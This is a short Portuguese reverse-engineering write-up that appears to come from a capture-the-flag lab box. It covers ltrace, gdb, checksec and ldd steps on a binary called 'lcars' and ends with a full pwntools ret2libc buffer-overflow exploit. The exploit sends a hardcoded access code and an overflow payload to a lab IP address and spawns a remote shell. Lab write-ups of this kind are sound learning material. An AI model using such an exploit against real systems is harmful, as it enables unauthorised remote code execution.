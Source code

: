 # Reverse Engineering

`ltrace ./lcars`

Install

```
curl -Ls https://github.com/radareorg/radare2/releases/download/5.8.8/radare2-5.8.8.tar.xz | tar xJv
radare2-5.8.8/sys/install.sh

sudo apt install ltrace
```

Processo

```
gdb **binario
(gdb)r**
```

![Untitled](Reverse%20Engineering%20d0ea6212a7fd475fb16dbeaa86e76767/Untitled.png)

`gdb .lcars`

`checksec` 

Isto serve para verificar as `compile time options`

![Untitled](Reverse%20Engineering%20d0ea6212a7fd475fb16dbeaa86e76767/Untitled%201.png)

Na maquina comprometida encontramos o a arquitetura i386

`ldd /bin/lcars | grep libc`

Como ele dá o resultados sempre igual vulnerável a este tipo de ataque

![Untitled](Reverse%20Engineering%20d0ea6212a7fd475fb16dbeaa86e76767/Untitled%202.png)

Para obter os valores de memoria corretos ret2libc 

![Untitled](Reverse%20Engineering%20d0ea6212a7fd475fb16dbeaa86e76767/Untitled%203.png)

Exploit

```
from pwn import *

context(os="linux", arch="i386")
HOST, PORT = "10.129.50.218", 32812

# Crie uma sequência de bytes de 212 instruções NOP
junk = b"\x90" * 212

# Construa a carga útil ret2libc com endereços de system(), exit() e o endereço de "/bin/sh"
ret2libc = p32(0xf7e4c060)  # endereço de system()
ret2libc += p32(0xf7e3faf0)  # endereço de exit()
ret2libc += p32(0xf7f6ddd5)  # endereço de "/bin/sh"

# Combine junk e a carga útil ret2libc
payload = junk + ret2libc

# Conecte-se ao servidor remoto
r = remote(HOST, PORT)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(payload)

# Inicie um shell interativo para interagir com o servidor conectado
r.interactive()
```